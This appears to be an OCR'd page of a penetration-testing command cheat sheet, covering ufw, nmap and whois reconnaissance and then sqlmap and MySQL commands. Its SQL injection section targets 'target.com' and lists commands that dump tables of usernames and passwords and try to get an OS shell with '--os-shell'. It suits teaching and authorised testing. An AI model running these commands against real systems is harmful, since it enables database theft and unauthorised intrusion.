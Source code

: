 ```cd```
```ufw status```
_Shows uncomplicated firewall status (e.g., '22/tcp ALLOW'), simplifies firewall management._

```ufw allow port```
_Permits traffic on 'port' (e.g., 'ufw allow 22'), opens ports for testing or services._

```ufw deny port```
_Blocks traffic on 'port' (e.g., 'ufw deny 80'), restricts access during hardening._

```hostname```
_Prints the system's hostname (e.g., 'kali'), identifies the machine in network contexts._

```hostnamectl set-hostname new_name```
_Sets the hostname to 'new_name' (e.g., 'hostnamectl set-hostname pentest'), renames for obfuscation._

```whois domain```
_Retrieves registration details for 'domain' (e.g., 'whois google.com'), gathers OSINT on targets._

```nmap host```
_Scans 'host' for open ports and services (e.g., 'nmap 192.168.1.10'), cornerstone of network reconnaissance._

```nmap -sV host```
_Scans 'host' with service version detection (e.g., 'Apache 2.4.41'), identifies software for exploits._

```nmap -A host```
_Performs aggressive scan on 'host' (ports, OS, services, scripts), comprehensive target profiling._

## SQL Injection

```sqlmap -u "http://target.com/page?id=1" --dbs```
_Enumerates all databases on a target URL vulnerable to SQL injection, automating reconnaissance of database structure._

```sqlmap -u "http://target.com/page?id=1" -D db_name --tables```
_Lists tables in 'db_name' on the target URL, narrows down data extraction to specific databases._

```sqlmap -u "http://target.com/page?id=1" -D db_name -T table_name --columns```
_Lists columns in 'table_name' within 'db_name', prepares for targeted data retrieval._

```sqlmap -u "http://target.com/page?id=1" -D db_name -T table_name --dump```
_Dumps all data from 'table_name' in 'db_name', extracts sensitive info like usernames or passwords._

```sqlmap -u "http://target.com/page?id=1" --os-shell```
_Attempts to gain an OS shell via SQL injection, escalates from database to system access._

```sqlmap -u "http://target.com/page?id=1" --sql-query "SELECT version()"```
_Executes a custom SQL query (e.g., retrieves DB version), allows precise control over injection._

```sqlmap -u "http://target.com/page?id=1" --batch```
_Runs sqlmap non-interactively with default options, speeds up automated testing._

```mysql -u user -p```
_Connects to a local MySQL database as 'user' with password prompt, tests DB access manually._

```mysql -h host -u user -p db_name```
_Connects to a remote MySQL database on 'host' as 'user', useful for direct DB exploitation._

```mysqldump -u user -p db_name > backup.sql```
_Exports 'db_name' to 'backup.sql' for analysis, backs up compromised databases._

```sqlite3 database.db```
_Opens 'database.db' in SQLite for interactive querying, examines local DB files from targets._
```